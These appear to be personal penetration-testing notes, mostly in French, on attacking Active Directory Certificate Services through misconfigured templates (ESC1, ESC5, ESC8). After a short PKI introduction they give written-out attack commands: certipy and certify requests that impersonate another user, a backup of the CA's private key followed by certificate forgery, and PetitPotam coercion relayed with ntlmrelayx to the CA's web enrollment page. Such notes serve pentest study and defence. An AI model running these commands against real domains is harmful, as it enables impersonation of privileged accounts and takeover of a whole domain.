

ADCS
Intro
- ADCS = role dispo pour un windows server qui lui permet d'agir comme PKI (infra a clé punbliquie):
- PKI : apporte des fonctionalites de signatures digitale, certificats numeriques etc dans un env AD
- vulnerabilities de specter ops en 2021
- certificat au forùmat x.509 est un document signé par une CA (autorité de certification) contennat
- clef publique
- extensions permettant d'elargir les fonctionnalit"s (e.g Extended Key Usage qui restreint les utilisations possibles du certificat)
- La génération de certificat se base sur un tempalte de certificaté qui hébérgé par un AD CS
- definit le type de certificat, utilisateurs autorisé pouvant l'obtenir, extensions de certificats
- ils peuvent être vulnérables s'ils sont mal configurés
Récupération et analyse des modeles de certificats

ESC1
- Prérequis
- le template et le CA autorisent un enrollement par l'attaquant (utilisateur non privilégié)
- la requete de certificat (ECR) ne necessite pas une validation par un manager ou un nombre non null de signature (fonctionnement par defaut)
- certificat peut être utilisé pour l'authentification
- le drapeu CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT est activé : permet a un user non privilgegié de rattacher un certificat à un autre utilisatue (peut être par défaut pour certains templates)
- exploit
- certipy req -u <user>@<domain> -p <password> -target <ca sever> -template '<template name> -ca <ca_name> -upn <target_user>@<domain>
- certify.exe request /ca:<server>\<ca_name> /template:"<vulnerable template name>" /altname:"Admin"
ESC5
- prérequis : defauts de conf plus generaux
- exploit
- extraire la clef privé et le certifcat de la CA elle meme
- une fois en possession du certificat et la clef privé on peut forger des certificats valides
◇
- certipy ca -backup -u <user@domain> -p <pass> -targetca server> -ca <ca name>
- forge a certificate for another use
- certify forge -ca-pfx <pfx cert +private keyof ca> -upn <impersonated user@domain> -subject <impersanted user subject>
- Post exploit
- we can also auth via private keys in AD
ESC8
- prérequis
- AD CS autorise enrollemùent HTTP sans mettre en place des protections contre le relai ntlm
- confirmation
- http(s)://<caIP>/certserv : interface bien present
- Exploit
- attaquant relay une authentication valide vers la CA et obtiendera un certificat du client
- le compte machine du DC peut faire du DCSync => on coerce son auth via petitpotam or coercer (fyi : coercer inclus petitpotam)
- petitpotam.py $IPAttacker $target

- ntlmrelayx.py -t http://ipca/certserv/certfnsh.asp -smb2support --adcs --template <templateName>